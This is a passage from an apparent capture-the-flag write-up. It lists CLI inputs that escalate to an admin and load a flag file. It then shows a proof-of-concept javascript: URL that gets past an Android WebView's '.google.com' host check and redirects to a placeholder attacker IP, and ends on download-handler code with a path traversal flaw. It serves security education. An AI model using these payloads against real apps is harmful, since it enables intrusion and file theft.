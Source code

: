 Therefore, it is straightforward to create the team and the user according to the command format. The input exp is as follows.

```
create user -n adm1n -p 123456 -P 1 -e nmsl
create user -n usr -p 654321 -P 2 -e wsnd
create user -n usr2 -p 654321 -P 2 -e wsnd
login user -n adm1n -p 123456
create team -n t1
login user -n usr -p 654321
join -n t1
login user -n usr2 -p 654321
join -n t1
login user -n adm1n -p 123456
admin load /home/ctf/flag
END
```



### WM Baby Droid

#### Bypass the validation of domain host 

The validation can be seen below:

```Java
if (!uri.getHost().endsWith(".google.com")) {
    finish();
    return;
}
```

It requires a url whose domain host needs to end with `.google.com`. But it doesn't really mean you need own a google sub-domain. It could be bypassed by scheme because there isn't any validation on url scheme. 

POC

```Plain
JavaScript://www.google.com/%0d%0awindow.location.href='http://xx.xx.xx.xx/'
```

#### Path traversal when Webview downloading

The vulnerable code can be seen below:

```Java
webView.setDownloadListener(new DownloadListener() {
    @Override
    public void onDownloadStart(String url, String userAgent, String contentDisposition, String mimeType, long contentLength) {
        String fileName = parseContentDisposition(contentDisposition);
        String destPath = new File(getExternalCacheDir(), fileName).getPath();
        new DownloadTask().execute(url, destPath);
    }
});
```
